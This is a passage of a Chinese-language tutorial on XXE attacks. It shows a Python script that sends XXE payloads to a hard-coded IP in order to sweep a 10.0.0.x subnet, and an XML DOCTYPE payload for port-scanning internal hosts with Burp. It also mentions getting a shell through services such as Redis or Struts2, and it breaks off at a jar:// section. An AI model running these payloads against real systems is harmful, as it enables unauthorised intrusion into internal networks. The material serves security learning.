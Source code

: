 ```python
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```



**HTTP 内网主机端口扫描：**

找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的。

比如传入：

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```

然后用burp进行端口遍历：

![image-20240705211945308](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705211945308.png)

至此，我们已经有能力对整个网段进行了一个全面的探测,并能得到内网服务器的一些信息了，如果内网的服务器有漏洞，并且恰好利用方式在服务器支持的协议的范围内的话，我们就能直接利用 XXE 打击内网服务器甚至能直接 getshell（比如有些 内网的未授权 redis 或者有些通过 http get 请求就能直接getshell 的 比如 strus2）







### 文件上传

利用Java的`jar`协议配合file协议



**jar:// 协议的格式：**

```
jar:{url}!{path}
```
